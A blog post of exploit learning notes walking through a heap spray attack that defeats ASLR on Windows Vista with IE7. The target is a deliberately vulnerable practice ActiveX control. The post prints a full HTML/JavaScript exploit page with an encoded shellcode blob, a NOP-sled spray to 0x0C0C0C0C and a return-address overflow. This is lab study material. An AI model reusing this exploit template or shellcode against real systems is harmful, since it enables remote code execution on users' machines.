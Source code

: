 ```yaml
---
title: Exploit learning notes 019 Using HeapSpray Attack ASLR
description: Use Heap Spray technique to attack ASLR and locate shellcode
date: 2020-11-28 12:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - HeapSpray
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-019-using-heapspray-attack-aslr/)

## Principle

By requesting a large amount of memory, occupying the 0x0C0C0C0C locations in memory, and placing 0x90 and shellcode in these memories, and finally controlling the program to go to 0x0C0C0C0C for execution. As long as the luck is not so bad that 0x0C0C0C0C0C happens to be located somewhere in the shellcode, the shellcode will be executed successfully

## Experiment

### Preparation

> Environment: System: Windows Vista SP0, DEP Status: Default, Browser: IE7

- Still use the previously used [Vulner_AX.dll](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX.ocx) as the target of the attack
- UUID of `CVulnerAXCtrl's class information` in `VulnerAX.idl`: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### Idea

- We use the Heap spray technique to request 200 1MB memory blocks in memory to counteract the randomization process of ASLR
- Each memory block contains 0x90 padding and shellcode
- After Heap spray we occupy the memory near `0x0C0C0C0C`, we just control the program to go to `0x0C0C0C0C` for execution, and after several 0x90 slides we can reach the shellcode range and execute
- There is a typical overflow vulnerability in the test function, where the function return address can be overwritten by copying a very long string
- We will overwrite the function return address as `0x0C0C0C0C`, after the function execution returns to execution will be transferred to the memory space we apply

### Code

```html
<html>
<body>
<script>
    var nops = unescape("%u9090%u9090");
    var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";
    while (nops.length < 0x100000)
        nops += nops;
    nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
    nops = nops + shellcode;
    var memory = new Array();
    for (var i = 0; i < 200; i++)
        memory[i] += nops;
</script>
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test"> </object>
<script>
    var s = "\u9090";
    while (s.length < 54)
    {
        s += "\u9090";
    }
    s += "\u0C0C\u0C0C";
    test.test(s);
</script>
</body>
</html>
```

### Result

- Successful attack on ASLR, as shown in the figure

![pic1](p1.png)  
![pic2](p2.jpg)  
![pic3](p3.png)
